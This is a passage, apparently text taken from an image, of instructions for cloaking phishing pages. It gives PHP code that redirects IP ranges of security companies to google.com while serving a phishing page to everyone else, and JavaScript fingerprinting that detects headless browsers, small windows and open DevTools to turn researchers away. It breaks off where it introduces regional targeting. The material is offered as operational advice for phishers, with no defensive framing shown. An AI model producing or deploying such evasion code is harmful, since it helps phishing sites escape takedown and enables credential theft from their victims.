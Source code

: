 1. **IP-based filtering** to block security companies and researchers:

```php
<?php
// Block security companies and known scanners
$blocked_ips = [
    '192.0.2.', // Example security company range
    '198.51.100.', // Example security scanner range
];

$visitor_ip = $_SERVER['REMOTE_ADDR'];
foreach ($blocked_ips as $blocked) {
    if (strpos($visitor_ip, $blocked) === 0) {
        // Redirect to legitimate site
        header('Location: https://google.com');
    exit;
    }
}

// Continue to phishing page if not blocked
include 'real_phishing_page.html';
?>
```

2. **Browser fingerprinting** to detect security tools:

```javascript
// Simple browser fingerprinting
function checkBrowser() {
    // Check for headless browsers or automation tools
    if (navigator.webdriver || navigator.plugins.length === 0) {
        window.location = "https://legitimate-site.com";
        return;
    }
    
    // Check screen dimensions (many security tools use small windows)
    if (screen.width < 1000 || screen.height < 600) {
        window.location = "https://legitimate-site.com";
        return;
    }
    
    // Check if DevTools is open
    if (window.outerHeight - window.innerHeight > 200) {
        window.location = "https://legitimate-site.com";
        return;
    }
}

// Run checks when page loads
document.addEventListener('DOMContentLoaded', checkBrowser);
```

3. **Regional targeting** - Only show phishing pages to visitors from specific countries:
